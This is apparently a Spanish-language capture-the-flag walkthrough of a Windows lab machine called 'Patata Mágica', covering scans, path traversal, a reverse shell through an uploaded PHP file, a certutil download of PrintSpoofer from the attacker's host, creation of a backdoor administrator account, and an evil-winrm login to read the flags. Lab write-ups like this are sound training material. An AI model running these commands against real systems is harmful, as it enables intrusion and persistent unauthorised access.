







# The hackers labs  - Patata Mágica

# Escaneo con Nmap 
```bash
nmap -sS --min-rate 5000 -p- --open -n -Pn 192.168.56.106 -oN scan.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-30 13:27 EDT
Nmap scan report for 192.168.56.106
Host is up (0.00043s latency).
Not shown: 57507 closed tcp ports (reset), 8012 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
5985/tcp  open  wsman
7680/tcp  open  pando-pub
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
```                                                                                                                                                                   

## Puertos Abiertos

```bash
grep '^[0-9]' scan.txt | cut -d '/' -f1 | sort -u | xargs | tr ' ' ','
135,139,443,445,47001,49664,49665,49666,49667,49668,49669,49670,5040,5985,7680,80
```

## Busqueda de Servicios

```bash
nmap --privileged -p135,139,443,445,47001,49664,49665,49666,49667,49668,49669,49670,5040,5985,7680,80 -sV -sC -Pn -vvv -n -oN fullScan.txt 192.168.56.106

PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 128 Apache httpd 2.4.58 ((Win64) OpenSSL/3.1.3 PHP/8.2.12)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
|_http-favicon: Unknown favicon MD5: 9687046259A08E13A4F0D23EC0A87C53
|_http-title: Curiosidades CTF
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
135/tcp   open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 128 Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      syn-ack ttl 128 Apache httpd 2.4.58 ((Win64) OpenSSL/3.1.3 PHP/8.2.12)
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
| SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
445/tcp   open  microsoft-ds? syn-ack ttl 128
5040/tcp  open  unknown       syn-ack ttl 128
5985/tcp  open  http          syn-ack ttl 128 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?    syn-ack ttl 128
47001/tcp open  http          syn-ack ttl 128 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
MAC Address: 08:00:27:C7:57:7B (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 31728/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 57464/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 32659/udp): CLEAN (Timeout)
|   Check 4 (port 45811/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: PATATA-MAGICA, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:c7:57:7b (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
| Names:
|   PATATA-MAGICA<00>    Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   PATATA-MAGICA<20>    Flags: <unique><active>
| Statistics:
|   08:00:27:c7:57:7b:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb2-time: 
|   date: 2025-08-30T17:31:26
|_  start_date: N/A
|_clock-skew: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```


# Directorios y Archivos

## Encontramos lo siguiente 
```bash
gobuster dir -u http://192.168.56.106 -x php,html,css,js,txt,pdf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 403,404   
```

```
/index.php            (Status: 200) [Size: 4241]
/uploads              (Status: 301) [Size: 342] [--> http://192.168.56.106/uploads/]
/Index.php            (Status: 200) [Size: 4241]
/robots.txt           (Status: 200) [Size: 223]
/examples             (Status: 503) [Size: 403]
/INDEX.php            (Status: 200) [Size: 4241]
/articulos.php        (Status: 200) [Size: 3596]
/Uploads              (Status: 301) [Size: 342] [--> http://192.168.56.106/Uploads/]
/juegos.php           (Status: 200) [Size: 7539]
/Robots.txt           (Status: 200) [Size: 223]
```

## Path Traversal

- Se Puede Leer archivos por lo que hay una vulnerabilidad



## Se Encontro el archivo index.php y lo podemos leer

```bash
http://patata-magica/juegos.php?file=Index.php
```



                   
### Contenido del archivo: Index.php
Lo mas importante es que nos escontramos los siguiente archivos y un Usuario con su clave

```
index.php
articulos.php
juegos.php

Usuario: patata:00000
```


## Robots  
- En la ruta nos da la siguiente pista http://192.168.56.106/robots.txt
```
Tal vez quieras mirar las listas en español 
Impersonar puede abrirte puertas… aunque yo siempre prefiero impresionar, ¡jajaja!
Y recuerda, a veces las mejores patatas no son las que fries, sino las que te dan acceso 
```



## Listas en Espanol


```bash
─$ gobuster dir -u http://192.168.56.106 -x php,html,css,js,txt,pdf -w /usr/share/wordlists/dirb/spanish.txt  -b 403,404   

===============================================================

/articulos.php        (Status: 200) [Size: 3596]
/juegos.php           (Status: 200) [Size: 7539]
/subida.php           (Status: 200) [Size: 3235]
```
                    



## Listamos el Archivo /uploads/revershell.php por lo que vamos a Visualizar 



## Vamos a pasar como Parametro la ip y el puerto para obtener una revershell

```bash
192.168.56.106/uploads/revershell.php?ip=192.168.56.103&port=4444

```



## Ahora Escuchamos por el puerto y obtenemos una shell



# Escalada de Privilegios

```bash
PS C:\temp> whoami
patata-magica\www-data
PS C:\temp> whoami /priv

INFORMACI?N DE PRIVILEGIOS
--------------------------

Nombre de privilegio          Descripci?n                                  Estado       
============================= ============================================ =============
SeShutdownPrivilege           Apagar el sistema                            Deshabilitado
SeChangeNotifyPrivilege       Omitir comprobaci?n de recorrido             Habilitada   
SeUndockPrivilege             Quitar equipo de la estaci?n de acoplamiento Deshabilitado
SeImpersonatePrivilege        Suplantar a un cliente tras la autenticaci?n Habilitada   
SeIncreaseWorkingSetPrivilege Aumentar el espacio de trabajo de un proceso Deshabilitado
SeTimeZonePrivilege           Cambiar la zona horaria                      Deshabilitado
PS C:\temp> 
```

## De los cuales SeImpersonatePrivilegeSe puede utilizar para la elevación de la serie Patata, aquí directamente en PrintSpoofer

Descargamos la Herramienta PrintSpoofer.exe y lo copartimos mediante un servidor en python

https://github.com/dievus/printspoofer/blob/master/PrintSpoofer.exe

                                                                                                                                                                                                                                                            
```bash
┌──(kali㉿kali)-[~/Documents/patata/shell]
└─$ ls
PrintSpoofer.exe
                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/patata/shell]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

## Descargamos el archivo en la maquina

```bash


certutil -urlcache -split -f "http://192.168.56.103:8000/PrintSpoofer.exe" "PrintSpoofer.exe" 

```

## Listar los usuarios 
```bash
PS C:\temp> net users

Cuentas de usuario de \\PATATA-MAGICA

-------------------------------------------------------------------------------
Administrador            DefaultAccount           Hacker                   
Invitado                 patata                   
WDAGUtilityAccount       www-data                 
Se ha completado el comando correctamente.


```
## Listar miembros del grupo "Administradores"
```bash
./PrintSpoofer.exe -i -c "cmd /c net localgroup Administradores"


PS C:\temp> net localgroup Administradores
Nombre de alias      Administradores
Comentario           Los administradores tienen acceso completo y sin restricciones al equipo o dominio

Miembros

-------------------------------------------------------------------------------
Administrador
Hacker
Se ha completado el comando correctamente.

PS C:\temp> 
```

## Vamos a crear un usuarios 

```bash 
./PrintSpoofer.exe -i -c "cmd /c net user hacker2 Password123 /add"

```

## Agregamos al usuario al grupo de Administradores con la herramienta PrintSpoofer.exe
```bash
./PrintSpoofer.exe -i -c "cmd /c net localgroup Administradores hacker2 /add"
```

Listar miembros del grupo "Remote Management Users":
```

./PrintSpoofer.exe -i -c "cmd /c net localgroup Administradores"

```


## Verificamos si esta abierto el Puerto 5985 
```bash
PS C:\temp> ./PrintSpoofer.exe -i -c "cmd /c  winrm enumerate winrm/config/listener"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Listener
    Address = *
    Transport = HTTP
    Port = 5985
    Hostname
    Enabled = true
    URLPrefix = wsman
    CertificateThumbprint
    ListeningOn = 127.0.0.1, 192.168.56.106, ::1, fe80::6ce9:31d5:e69f:386d%4

```
## Agregamos al usuario nuevo hacker2 al grupo de Remote Management Users

```bash 
./PrintSpoofer.exe -i -c "cmd /c net localgroup "Remote Management Users" hacker2 /add"
```

```bash 
./PrintSpoofer.exe -i -c "cmd /c net localgroup "Remote Management Users" "

./PrintSpoofer.exe -i -c "cmd /c net localgroup 'Remote Management Users'"

```

# CONECTARSE REMOTAMENTE DESDE TU MÁQUINA (Kali/Linux)

```bash
evil-winrm -i 192.168.56.106 -u hacker2 -p 'Password123'
```

## Encontrar las Flags del usuario Administrador y Hacker

```
Evil-WinRM* PS C:\Users\Administrador\Desktop> ls

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         8/23/2025   5:29 PM           2350 Microsoft Edge.lnk
-a----         8/24/2025  12:03 AM             56 Root.txt


*Evil-WinRM* PS C:\Users\Administrador\Desktop> type Root.txt
QSBxdWUgZXJhIG1hcyBzZW5jaWxsbyBkZSBsbyBxdWUgcGFyZWNpYT8=


```
## Flag de Usuario Administrador

```bash

echo "QSBxdWUgZXJhIG1hcyBzZW5jaWxsbyBkZSBsbyBxdWUgcGFyZWNpYT8=" | base64 -d

QSBxdWUgZXJhIG1hcyBzZW5jaWxsbyBkZSBsbyBxdWUgcGFyZWNpYT8=
```

## Flag de Usuario Hacker
```
Evil-WinRM* PS C:\Users\hacker\Desktop> ls

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         8/24/2025   1:55 AM                Figuras
-a----         8/24/2025  12:14 AM           2354 Microsoft Edge.lnk
-a----         8/24/2025   1:52 AM             48 User.txt

Evil-WinRM* PS C:\Users\hacker\Desktop> type User.txt

YmllbiBoZWNobyBhcXVpIHRpZW5lcyBsYSBiYW5kZXJhMSEh

 ```

```bash
Flag de Usuario HACKER 
echo "YmllbiBoZWNobyBhcXVpIHRpZW5lcyBsYSBiYW5kZXJhMSEh" | base64 -d

YmllbiBoZWNobyBhcXVpIHRpZW5lcyBsYSBiYW5kZXJhMSEh

```

NetExec smb 192.168.56.106-u patata -p 00000 --rid-brute | grep SidTypeUser 

